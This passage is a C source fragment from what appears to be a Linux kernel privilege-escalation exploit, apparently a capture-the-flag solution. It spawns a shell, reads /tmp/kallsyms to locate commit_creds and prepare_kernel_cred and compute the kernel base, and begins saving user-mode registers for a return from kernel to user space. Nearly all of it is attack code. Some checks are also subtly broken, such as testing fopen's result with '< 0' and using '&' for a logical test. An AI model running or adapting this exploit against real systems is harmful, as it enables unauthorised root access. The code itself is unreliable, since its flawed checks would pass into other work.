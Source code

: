 ```c
	}
	else
	{
		puts("[*]spawn shell error!");
	}
	exit(0);
}

size_t commit_creds = 0, prepare_kernel_cred = 0;
size_t raw_vmlinux_base = 0xffffffff81000000;

size_t vmlinux_base = 0;
size_t find_symbols()
{
	FILE* kallsyms_fd = fopen("/tmp/kallsyms","r");

	if(kallsyms_fd < 0)
	{
		puts("[*]open kallsyms error!");
		exit(0);
	}

	char buf[0x30] = {0};
	while(fgets(buf,0x30,kallsyms_fd))
	{
		if(commit_creds & prepare_kernel_cred)
			return 0;

		if(strstr(buf, "commit_creds") && !commit_creds)
		{
			char hex[20] = {0};
			strncpy(hex,buf,16);
			sscanf(hex,"%llx",&commit_creds);
			printf("commit_creds addr: %p\n",commit_creds);
			vmlinux_base = commit_creds - 0x9c8e0;
			printf("vmlinux_base addr: %p",vmlinux_base);
		}

		if(strstr(buf, "prepare_kernel_cred") && !prepare_kernel_cred)
		{
			char hex[20] = {0};
			strncpy(hex,buf,16);
			sscanf(hex,"%llx",&prepare_kernel_cred);
			printf("prepare_kernel_cred addr: %p",prepare_kernel_cred);
			vmlinux_base = prepare_kernel_cred - 0x9cce0;
		}
	}

	if(!(prepare_kernel_cred & commit_creds))
	{
		puts("[*]Error!");
		exit(0);
	}
}
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
	__asm__(
		"mov user_cs, cs;"
		"mov user_sp, rsp;"
		"mov user_ss, ss;"
		"pushf;"
		"pop user_rflags;"
```